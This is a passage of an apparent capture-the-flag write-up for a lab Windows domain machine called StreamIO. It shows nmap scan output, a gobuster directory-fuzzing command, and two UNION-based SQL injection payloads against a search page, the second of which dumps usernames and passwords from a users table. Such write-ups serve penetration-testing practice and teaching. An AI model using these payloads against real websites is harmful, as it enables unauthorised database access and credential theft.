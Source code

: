 ```sh
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

# HTTP 
## Fuzzing

https://streamio.htb/admin


![[/assets/images/streamio3.png]]

https://watch.streamio.htb/

![[/assets/images/streamio4.png]]

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -u https://watch.streamio.htb/ -x php
```

![[/assets/images/streamio6.png]]

https://watch.streamio.htb/search.php
![[/assets/images/streamio5.png]]

# Exploitation

## SQLi

```sh
# payload 
10' union select 1,@@version,3,4,5,6-- -
```

![[/assets/images/streamio7.png]]

```sh
# payload
10' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```

![[/assets/images/streamio8.png]]
